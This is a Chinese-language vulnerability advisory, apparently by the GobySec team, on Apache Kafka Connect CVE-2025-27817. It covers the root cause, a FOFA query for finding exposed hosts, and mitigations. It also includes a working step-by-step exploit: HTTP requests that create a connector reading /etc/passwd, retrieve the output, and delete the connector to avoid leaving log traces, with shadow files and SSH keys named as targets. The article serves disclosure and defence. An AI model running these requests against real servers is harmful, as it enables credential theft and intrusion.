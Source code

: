 #  【漏洞预警】Apache Kafka Connect高危漏洞（CVE-2025-27817）可致任意文件读取,影响核心数据安全！  
原创 Gobybot  GobySec   2025-06-12 09:47  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/GGOWG0fficjLTMIjhRPrloPMpJ4nXfwsIjLDB23mjUrGc3G8Qwo770yYCQAnyVhPGKiaSgfVu0HKnfhT4v5hSWcQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
6月9日，Apache Kafka官方披露了多个安全漏洞:  
  
CVE-2025-27819：  
通过 SASL JAAS JndiLoginModule 配置发起 RCE/拒绝服务攻击（利用此漏洞需要  
集群资源的 AlterConfigs 权限  
）  
  
CVE-2025-27818：  
可能通过 SASL JAAS LdapLoginModule 配置发起 RCE 攻击（利用此漏洞需经过身份验证的攻击者修改‘  
asl.jaas.config”属性“）  
  
CVE-2025-27817：  
Apache Kafka 客户端任意文件读取和 SSRF 漏洞（  
允许未经身份验证的攻击者利用该漏洞实现任意文件读取  
）  
  
大多数据处理中间件或流式处理框架，如：Apache Spark Structured Streaming、  
Apache Druid等  
在应用中需要调用Kafka Connect组件，  
而这些服务会存储大量的核心业务系统敏感数据，一旦被攻击将造成更加严重的数据泄密  
。  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzEDnzsj0fDTW87vANxGKHrVqOLtBbgQCiacbWk8bQVMpGhUiatNDn8s2rQ/640?wx_fmt=png&from=appmsg "")  
  
### 【资产暴露面分析】  
  
我们通过FOFA搜索引擎查询公网中受影响资产情况，搜索语句如下：  
```
header="Jetty" && body="kafka_cluster_id"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzEMzL93EGQ431I9TK2mhLygPada9vYFsuvJgHFD9fP1UiadKHpNMOmgrw/640?wx_fmt=png&from=appmsg "")  
  
  
FOFA搜索结果显示，暴露在公网的相关资产数量超  
3800  
+。  
  
【漏洞原理分析】  
  
我们基于Apache Kafka官网发布的漏洞描述，深入分析该漏洞：  
  
在 Apache Kafka 客户端 3.1.0 至 3.9.0 版本中，部分与认证相关的配置字段（如   
  
sasl.oauthbearer.token.endpoint.url  
）允许设置为 file://  
 协议  
。  
  
由于客户端未对该 URL 协议进行有效校验，导致可将本地文件内容作为 OAuth Token 加载——  
只要攻击者能够控制这些字段的值，即可触发漏洞  
。  
  
其中，  
Kafka Connect 是一个高危的漏洞触发场景  
：  
- 在分布式模式下，其默认暴露 REST API（端口 8083）；  
  
- 支持远程创建/修改连接器；  
  
可通过 JSON 请求直接注入恶意字段，如：  
```
"sasl.oauthbearer.token.endpoint.url": "file:///etc/passwd"
```  
- 配置支持动态生效，无需重启，极易被脚本化利用。  
  
这些特性叠加，使原本应仅影响客户端配置安全的问题  
，  
演变为一个可远程利用的任意文件读取漏洞  
，大大提升了攻击风险。  
### 【漏洞复现】  
#### Step 1：构造恶意连接器  
  
向 Kafka Connect 的 /connectors  
 接口发送 POST 请求，创建带有 file:///etc/passwd  
 的连接器：  
```
POST /connectors HTTP/1.1
Host: 127.0.0.1:8083
Content-Type: application/json
{
 "name": "malicious-connector",
 "config": {
  "connector.class": "org.apache.kafka.connect.mirror.MirrorHeartbeatConnector",
  "tasks.max": "1",
  "source.cluster.alias": "source-0",
  "target.cluster.alias": "target-0",
  "source.cluster.bootstrap.servers": "127.0.0.1:9092",
  "target.cluster.bootstrap.servers": "127.0.0.1:9092",
  "producer.override.sasl.oauthbearer.token.endpoint.url": "file:///etc/passwd",
  "producer.override.sasl.login.callback.handler.class": "org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginCallbackHandler",
  "producer.override.sasl.jaas.config": "org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required serviceName=\"exploit\";",
  "producer.override.sasl.mechanism": "OAUTHBEARER",
  "value.converter": "org.apache.kafka.connect.converters.ByteArrayConverter",
  "key.converter": "org.apache.kafka.connect.converters.ByteArrayConverter"
 }
}
```  
  
核心利用字段：  
```
"producer.override.sasl.oauthbearer.token.endpoint.url": "file:///etc/passwd"
```  
  
正常用途：Kafka ⽀持通过 OAuth2 从远程URL（如HTTPS认证服务器）获取令牌。  
  
恶意用途：攻击者将URL设置为file:///etc/passwd，Kafka客户端将从本地磁盘读取/etc/passwd内容作为令牌。如果未配置allowed.urls白名单，Kafka将执行此读取操作。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzEfxZKLorj0jWzc8yHubO5mRsfgKgzhx1xepias2JArOMGhQQXvcb1ROQ/640?wx_fmt=png&from=appmsg "")  
  
#### Step 2：触发连接器重启  
  
由于配置可能不会立即生效，攻击者需通过以下请求触发漏洞逻辑执行：  
```
POST /connectors/malicious-connector/restart HTTP/1.1
Host: 127.0.0.1:8083
```  
#### Step 3：读取响应信息  
  
可通过以下接口查看连接器状态和错误信息，判断漏洞是否生效：  
```
GET /connectors/malicious-connector/status HTTP/1.1
Host: 127.0.0.1:8083
```  
  
  
若系统未屏蔽敏感错误响应，可能在返回信息中看到/etc/passwd  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzEKvanseJ6tbqwx1BvmrC0wKicLibZ5ACgBjYfBAAKkdIjvcVnDRvaYl0A/640?wx_fmt=png&from=appmsg "")  
  
#### Step 4：删除痕迹  
  
为避免日志留痕，可通过 DELETE 请求删除恶意连接器：  
```
DELETE /connectors/malicious-connector HTTP/1.1
Host: 127.0.0.1:8083
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzExcZAdQm4oNicQiczib8UqNNBeh4vnrPB6ibvKfvRH4KSQkZVbvs9vzQwzg/640?wx_fmt=png&from=appmsg "")  
  
### 【漏洞危害】  
- 任意  
文件读取  
：  
可读  
取如  
/etc/shadow、/root/.ssh/id_rsa等  
敏感文件，威胁服务器安全。  
  
- 攻击者可将URL替换为内网地址（如http://127.0.0.1:8080/actuator/env），从而攻击内网服务。  
  
- 权限提升：  
配合其他漏洞或配置不当，攻击者可能进一步提升权限，最终完全控制Kafka Connect实例或其主机。  
  
- 配合信息泄露进一步渗透  
：  
例如通过泄露数据库配置，攻击者可进一步入侵业务系统、访问数据，甚至进行篡改。  
  
### 【安全加固建议】  
- 升级Kafka  
：Kafka官方已发布安全修复版本，请尽快升级至 3.9.1及以上版本，下载地址：https://github.com/apache/kafka/releases/tag/3.9.1  
  
- 配置URL白名单  
：设置  
allowed.urls限  
制可访问的URL范围。  
  
- 限制REST接口访问  
：关闭8083端口或启用访问认证机制。  
  
- 防火墙加固  
：使用防火墙限制Kafka Connect接口访问，仅允许可信内网IP。  
  
```
iptables -A INPUT -p tcp --dport 8083 ! -s 192.168.1.0/24 -j DROP
```  
```

```  
### Goby已完成CVE-2025-27817无损检测及EXP验证复现  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLI6EZmeCx116HybctXMibzEnsaYJvGXlR9GbGklmlgoPjoDibp5QfPvQJ24fibOSWCvLiaiaDEgS6pAUg/640?wx_fmt=png&from=appmsg "")  
  
Goby欢迎表哥/表姐们加入我们的社区大家庭，一起交流技术、生活趣事、奇闻八卦，结交无数白帽好友。  
  
也欢迎投稿到Goby（Goby介绍/扫描/口令爆破/漏洞利用/插件开发/PoC编写/IP库使用场景/Webshell/漏洞分析等文章均可），审核通过后可奖励Goby标准版，快来加入吧~~~  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjIiabR1dAPwPUfdMicdAYjpI64IJvW0ibvQHibec1lKpI5j2gBSHics8h2nBF9PRHv3NwauicLyB5lEWfmQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
